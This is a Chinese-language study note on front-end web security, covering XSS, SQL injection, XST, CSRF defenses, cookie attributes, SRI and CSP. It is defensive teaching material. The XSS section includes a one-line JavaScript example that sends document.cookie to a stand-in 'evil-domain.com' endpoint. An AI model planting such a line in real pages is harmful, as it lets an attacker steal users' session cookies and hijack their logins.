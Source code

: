 # 前端安全性

腾讯大牛亲授漏洞防御(3-7 看完)

## xss 处理(Cross Site Scripting) 跨站脚本攻击

### scripting 能干吗？

1. 获取页面数据
2. 获取 cookies
3. 劫持前端逻辑
4. 发送请求
5. 偷取网站任意数据
6. 偷取用户资料
7. 偷取用户密码和登录态
8. 欺骗用户

### xss 攻击分类

1. 反射型(url 参数直接注入)
2. 存储型(存储到 DB 后读取时注入)

### xss 攻击注入点

浏览器只能拦截前两种(只适合反射性 css)

1. HTML 节点内容
2. HTML 属性
3. Javascript 代码
4. 富文本

本质是 HTML 注入,用户输入的数据被当成 Html 代码执行了
对<>单引号和双引号进行转义;对空格进行转义

1. cookie 使用 HttpOnly 限制: 是的客户端的 js 代码不能读取到 cookie 值,但是不能防止从 HTTP header 里得到 cookie
2. 输出文本 HTML 转义:对网页上显示的文本内容使用 HtmlEncode 转义。js 函数：OWASP ESAPI 中的 encodeCharacter。其它的如 xmlencode、jsonencode 等转义函数。
3. 检查输入的 URL
4. 对传入 js 函数的文本类型参数值进行 javascript 转义

会话劫持和 XSS：
常用的窃取 Cookie 的方法有利用社会工程学攻击和利用应用程序漏洞进行 XSS (en-US) 攻击。

```js
// HttpOnly 类型的 Cookie 用于阻止了JavaScript 对其的访问性而能在一定程度上缓解此类攻击。
new Image().src =
  "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
```

## SQL 注入

预防办法：数据与代码分离,即不用字符串拼凑 SQL 语句

## XST 处理

XST(跨站追踪)攻击，关闭 Web 服务器的 TRACE 方法

## CSRF 攻击的防御

- 令牌同步模式(tokie)
  原理:令牌可以通过任何方式生成，只要确保随机性和唯一性.这样确保攻击者发送请求时候，由于没有该令牌而无法通过验证。
- 检查 Referer 字段
  因其完全依赖浏览器发送正确的 Referer 字段。虽然 http 协议对此字段的内容有明确的规定，但并无法保证来访的浏览器的具体实现，亦无法保证浏览器没有安全漏洞影响到此字段。并且也存在攻击者攻击某些浏览器，篡改其 Referer 字段的可能。
- 添加校验 token
  由于 CSRF 的本质在于攻击者欺骗用户去访问自己设置的地址;正常的访问时，客户端浏览器能够正确得到并传回这个伪随机数，而通过 CSRF 传来的欺骗性攻击中，攻击者无从事先得知这个伪随机数的值，服务端就会因为校验 token 的值为空或者错误，拒绝这个可疑请求。

## HTTP 头注入

## Cookie 安全

标记为 Secure 的 Cookie 只应通过被 HTTPS 协议加密过的请求发送给服务端
HttpOnly 属性可防止通过 javascript 访问 cookie 值
SameSite 属性 允许服务器要求某个 cookie 在跨站请求时不会被发送,从而可以阻止跨站请求伪造攻击(CSRF)
Cookie 的SameSite属性用来限制第三方 Cookie，从而减少安全风险
1. SameSite=None:浏览器会在同站请求、跨站请求下继续发送 cookies,不区分大小写 
2. SameSite=Strict:浏览器将只在访问相同站点时发送 cookie。（在原有 Cookies 的限制条件上的加强，如上文 “Cookie 的作用域” 所述）; 这个规则过于严格，可能造成非常不好的用户体验。比如，当前网页有一个 GitHub 链接，用户点击跳转就不会带有 GitHub 的 Cookie，跳转过去总是未登陆状态。
3. SameSite=Lax:但只有当用户从外部站点导航到 URL 时才会发送。如 link 链接

```JS
Set-Cookie: key=value; SameSite=Strict;
Set-Cookie: sessionId=e8bb43229de9; Domain=foo.example.com
```

## 提高资源的安全性-SRI(Subresource Integrity) 与 CSP

```js
<script
  type="text/javascript"
  src="app.bundle.js"
  integrity="sha256-WcONURDxHuPpCyTfyxv6ULC5IQS8W/TvkOfiluU2Y1w= sha512-XZBIDDYvednMCvIE+VxLhoh3GZ550KQEUuUG8EA/HNUKVOa9sl2YpyeIGVmi6NVu2VAAT+bReuzUszzugYNxKQ=="
  crossorigin="anonymous"
></script>;
crossorigin: "" | anonymous | (use-credentials) 请求头都会带上Origin 属性
// 使用use-credentials,这个就同时会在跨域请求中带上 cookie 和其他的一些认证信息. 需要服务端response Header 返回：Access-Control-Allow-Credentials
```

- SRI
  SRI 是用来校验资源是否完整的安全方案。通过为页面引用的资源指定信息摘要，当资源被劫持篡改内容时，浏览器校验信息摘要不匹配，将会拒绝代码执行并抛出加载异常，保证加载资源的完整性。
  启用 SRI:使用 SRI 只需要给页面标签添加 integrity 属性，属性值为签名算法（sha256、sha384、sha512）和摘要签名内容组成，中间用 - 分隔。
  可以通过 webpack webpack-subresource-integrity 插件实现 integrity 实现添加过程。
  开启 SRI，浏览器会对相关资源进行 CORS 检查。至此，当资源内容被劫持篡改时，浏览器校验签名不匹配将使得异常资源不被执行，并触发加载失败。从而进入到资源加载失败的监控流程中，最终可以通过切换 CDN 域名或主域名进行加载重试，直到加载上正确资源，避免资源被劫持篡改内容后注入广告或白屏等情况。
  HTTPS 可以有效应对流量劫持的问题，SRI 在资源完整性再上一道屏障，CSP 也进行了其他方面的补充。“三驾马车” 为页面资源安全 “保驾护航”。
  

